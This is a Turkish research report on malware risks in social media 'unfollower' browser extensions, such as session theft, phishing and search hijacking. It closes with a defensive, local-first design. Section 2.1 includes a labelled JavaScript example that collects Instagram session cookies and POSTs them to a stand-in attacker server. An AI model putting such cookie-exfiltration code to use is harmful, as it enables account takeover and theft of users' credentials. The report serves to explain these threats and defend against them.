

# Araştırma Raporu: Unfollower Eklentilerinde Güvenlik, Gizlilik ve Zararlı Yazılım Tehditleri

**Tarih:** 30 Eylül 2026  
**Protokol:** `/deepwork`, `Clean Architecture`  
**Yazar:** Senior Google Ecosystem Architect & Deep Research Specialist  

---

## 1. Unfollower Eklentilerinin Karanlık Geçmişi: Neden Bu Pazar Kötü Amaçlı Yazılımlarla Dolu?

Sosyal medya platformlarının (Instagram, X, TikTok vb.) "seni kim takipten çıkardı" bilgisini doğrudan sağlamaması, devasa bir kullanıcı talebi yaratmıştır. Bu açığı kapatan "Unfollower", "Follower Tracker" veya "Ghost Follower Analyzer" gibi eklentiler, kullanıcıların en çok talep ettiği fakat en büyük riskleri barındıran araçlardır. Geleneksel olarak, geliştiriciler bu araçları ücretsiz sunup ardından kötü niyetli aktörlere (Malware-as-a-Service, Botnet operatörleri) satmışlar veya gizli arka plan süreçleriyle kullanıcıları birer "zombi" hesaba dönüştürmüşlerdir. 

Kullanıcı kitlesinin teknik bilgisinin zayıf olması, bu eklentileri zararlı yazılım dağıtımı için ideal bir vektör haline getirmektedir.

## 2. Temel Saldırı Vektörleri

### 2.1. Oturum Çalma (Session Hijacking / Cookie Exfiltration)
En yaygın saldırı yöntemidir. Eklenti, tarayıcının `chrome.cookies` API'sini (veya Content Script üzerinden `document.cookie`) kullanarak kullanıcının kimlik doğrulama token'larını çalar. 

**Nasıl Çalışır:** Instagram için `sessionid` ve `csrftoken` çerezleri kritik öneme sahiptir. Kötü amaçlı bir eklenti bu çerezleri okuyup geliştiricinin veya saldırganın Command & Control (C2) sunucusuna gönderir. Bu işlem, Two-Factor Authentication (2FA) korumasını da atlatır.

```javascript
// Kötü Amaçlı Kod Örneği: Çerez Hırsızlığı
chrome.cookies.getAll({domain: "instagram.com"}, function(cookies) {
    let stolenData = {};
    cookies.forEach(c => { stolenData[c.name] = c.value; });
    
    // Veriyi sinsi bir şekilde C2 sunucusuna sızdırma
    fetch("https://evil-analytics.server/collect", {
        method: "POST",
        body: JSON.stringify(stolenData)
    });
});
```

### 2.2. Zombi Hesap ve Takipçi Çiftliği
Sızdırılan tokenlar kullanılarak, kullanıcı haberi olmadan başkalarını takip etmeye (auto-follow), paylaşımları beğenmeye (auto-like) veya yorum yapmaya başlar. Bu, saldırganların "takipçi satışı" pazarlarında kullandıkları temel yöntemdir. Kullanıcıların hesabı kısa süre içinde Meta tarafından "Inauthentic Behavior" (Sahte Davranış) nedeniyle kapatılır veya kısıtlanır.

### 2.3. Kimlik Avı (Credential Phishing)
Daha ilkel eklentiler, arayüzlerine sahte bir Instagram veya X giriş formu gömer ("Analizi başlatmak için giriş yapın"). Kullanıcı şifresini girdiğinde bilgiler doğrudan uzak sunucuya düşer.

### 2.4. Kripto Cüzdanı ve Arama Yönlendirme (Search Hijacking)
Bir eklenti önce masum bir Unfollower aracı olarak piyasaya sürülür. Yüz binlerce kullanıcıya ulaştıktan sonra, eklenti güncellenerek "Search Hijacking" (tarayıcı arama motorunun değiştirilmesi, sayfalara gizli reklam enjeksiyonu) veya tarayıcı tabanlı kripto cüzdan uzantılarının (MetaMask vb.) DOM yapısını hedef alan JavaScript kodları eklenir. 

## 3. Chrome Web Store ve Platform Politikaları

Google, Meta ve X, bu tür ihlallere karşı katı politikalar yürütmektedir:

* **Google Chrome Web Store Politikaları:**
  * **User Data Privacy:** Eklentiler, kullanım amacı dışındaki hiçbir kullanıcı verisine (şifre, çerez) erişemez veya bunları sızdıramaz. Veri aktarımı açık bir gizlilik politikası ve şifreleme gerektirir.
  * **Deceptive Installation & Single Purpose:** Bir eklenti sadece vaat ettiği tek bir işi yapmalıdır. Unfollower vaat edip arka planda reklam değiştiren uygulamalar yasaktır.
  * **Remote Code Execution (RCE) Yasakları (MV3 ile):** Manifest V3 ile uzak sunuculardan (external CDN) script çekilerek çalıştırılması tamamen yasaklanmıştır.
* **Meta (Instagram) & X Politikaları:**
  * Resmi API'ler dışından (Scraping yoluyla) platformu kullanmak yasal olarak "Hizmet Şartları" (TOS) ihlalidir.
  * Meta düzenli olarak izinsiz veri çeken eklenti ve uygulama geliştiricilerine "Cease & Desist" (İhtarname) göndererek ve dava açarak platformdan sildirmektedir.

*Sonuç:* Yukarıdaki politikalar nedeniyle, geleneksel sunucu destekli takipçi eklentileri sürekli olarak Chrome Web Store'dan silinir (takedown).

## 4. Güvenli ve Etik Mimari Standardı (Zero-Data Exfiltration)

Uzun ömürlü, güvenilir ve yasal (veya gri bölgede en risksiz) bir ürün geliştirmek için modern "Zero-Data Exfiltration" prensipleri uygulanmalıdır.

* **Sıfır Uzak Sunucu (100% Local-First):** Çekilen tüm analiz verileri, takipçi/takip edilen listeleri sadece kullanıcının bilgisayarında (tarayıcı `IndexedDB` veya `chrome.storage.local`) saklanır. Geliştirici sunucusuna ASLA veri gitmez. Google Analytics gibi harici tracker'lar bile kullanılmamalı veya anonimize edilmelidir.
* **Açık Kaynak Güvencesi ve Denetlenebilirlik:** Mimari, sızma veya gizli işlev taşımadığını kanıtlamak adına açık kaynak veya bağımsız güvenlik denetimlerinden geçmiş olmalıdır.
* **Şifre Sormadan Aktif Oturum Okuma:** Uygulama, kullanıcının aktif olarak girmiş olduğu tarayıcı oturumunu (Network / Fetch / XHR intercept üzerinden veya Content Script ile) read-only (salt-okunur) modda kullanır. API limitleri aşılmaması için rastgele (randomized) gecikmeli arka plan işleri (background jobs) kullanılır.

## 5. Mimari Analiz ve Savunma Diyagramı

Aşağıdaki Mermaid diyagramında, güvensiz bir eklenti ile Güvenli (Zero-Data Exfiltration) bir eklenti modeli karşılaştırılmıştır.



### Savunma Özeti
1. **İzin Kısıtlamaları:** `manifest.json` dosyasında sadece hedef site (örn. `*://*.instagram.com/*`) için izin istenir. `cookies` yetkisi, kesinlikle uzak ağ izni (`host_permissions`) ile birleştirilmez.
2. **CSP (Content Security Policy):** `default-src 'self'; connect-src 'self' https://*.instagram.com;` ile eklentinin kendi kaynakları veya sadece platform haricine çıkması engellenir.
3. **Local Storage Şifreleme:** Gerekirse IndexedDB üzerinde tutulan takipçi dökümleri yerel bir anahtarla şifrelenir, böylece bilgisayara bulaşan farklı bir zararlı yazılım bu verileri kolayca alamaz.

---
**Sonuç:** Pazardaki güvensiz eklentilerin oluşturduğu risk havuzu, 100% Local-First ve Zero-Data Exfiltration temelli temiz mimari prensipleriyle tasarlanmış şeffaf bir eklentinin Chrome Web Store'da öne çıkmasını sağlayacaktır.
